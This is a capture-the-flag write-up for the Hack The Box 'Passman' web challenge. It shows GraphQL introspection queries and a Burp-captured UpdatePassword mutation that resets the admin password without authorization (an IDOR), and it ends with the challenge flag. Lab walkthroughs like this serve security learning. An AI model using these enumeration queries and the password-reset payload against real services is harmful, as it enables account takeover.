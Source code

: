 # web - Passman

## Playing around to Query graphQL and see what we got although we got all the files..

`/graphql/?query=fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}`

After reviewing the files I notice a function to UpdatePassword and figured we can try to update the admin password and login:

This is the query from burp

```json
{"query":"mutation($username: String!, $password: String!) { UpdatePassword (username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"pwned"}}
```

I’ve also used a graphQL extension from Burp that helped me understand how we can query the mutation and update the password for the user admin, a very neat and useful tool for someone such as myself that was dealing with graphQL for the first time

![Untitled](web%20-%20Passman%20ad20b2bf415d44fca6aa4c4c56f1d651/Untitled.png)

Final request from the above query from burp:

![Untitled](web%20-%20Passman%20ad20b2bf415d44fca6aa4c4c56f1d651/Untitled%201.png)

More concise query for graphQL to see what are the objects, fields, and etc..

`/graphql?query={__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name,kind}}}}}}}`

And voila, we are in after we changed the password for the **admin and we get the flag!**

![Untitled](web%20-%20Passman%20ad20b2bf415d44fca6aa4c4c56f1d651/Untitled%202.png)

### flag: HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}